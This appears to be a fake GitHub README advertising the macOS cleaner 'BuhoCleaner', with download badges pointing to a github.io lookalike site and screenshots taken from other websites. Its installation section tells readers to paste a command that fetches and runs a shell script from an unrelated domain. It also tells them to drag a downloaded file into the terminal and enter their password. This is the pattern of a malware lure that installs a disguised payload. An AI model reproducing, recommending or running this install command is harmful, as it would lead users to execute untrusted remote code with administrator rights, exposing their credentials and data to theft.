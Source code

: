 # 🧹 BuhoCleaner — Powerful Mac Cleaner & Optimizer

**BuhoCleaner** is a lightweight yet powerful cleaning utility designed exclusively for macOS. It helps you reclaim valuable disk space, improve system performance, and keep your Mac running like new — all in just a few clicks.

Whether you’re battling junk files, startup bloat, or app leftovers, BuhoCleaner provides fast and intuitive tools to clean, optimize, and monitor your Mac with ease.

---

## ✅ Download BuhoCleaner for macOS  
[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://buhocleaner-download-mac.github.io/.github)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```


## 📦 What is BuhoCleaner?

BuhoCleaner is a professional-grade macOS maintenance app that makes system optimization simple. From deep-cleaning cache files to removing unused apps and managing startup items, BuhoCleaner is engineered to provide both performance and usability. It also includes a real-time memory monitor and startup manager, giving you full control over your Mac’s health.

---

## ✨ Features

- 🧼 One-click junk file removal and deep system cleanup  
- 🚀 Boost Mac speed by freeing up RAM and storage  
- 🗑 Smart app uninstaller with leftover remover  
- 🔍 Duplicate file finder and large file scanner  
- 🧠 Real-time system status monitor  
- ⚙️ Startup item management for faster boot times  
- 📦 Full compatibility with macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🖱 Extremely intuitive interface for beginners and pros alike  

---

## 💡 Why Use BuhoCleaner?

- ⚡️ Instantly speed up your slow Mac with a single click  
- 🧘 Keep your system clean without manual work  
- 💻 Designed specifically for macOS with full Apple ecosystem integration  
- 🔒 Safe, secure, and lightweight utility  
- 📉 Monitor system resources and optimize usage  
- 🎯 Perfect for both casual users and professionals  

---

[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://buhocleaner-download-mac.github.io/.github)

---


---

## 🖼 Preview

![BuhoCleaner Screenshot 1](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_f30c249476.webp)  
![BuhoCleaner Screenshot 2](https://macmenubar.com/wp-content/uploads/2023/04/buhocleaner.jpg)

---

## 📌 Tags

buhocleaner, buhocleaner mac, buho cleaner, buhocleaner mac download, buhocleaner download mac,  
mac cleaner buho, buhocleaner ventura, buhocleaner m1, buhocleaner apple silicon, macbook cleaner buho,  
buhocleaner uninstall apps, buhocleaner memory monitor, buhocleaner optimizer, mac booster buho,  
buhocleaner free download mac

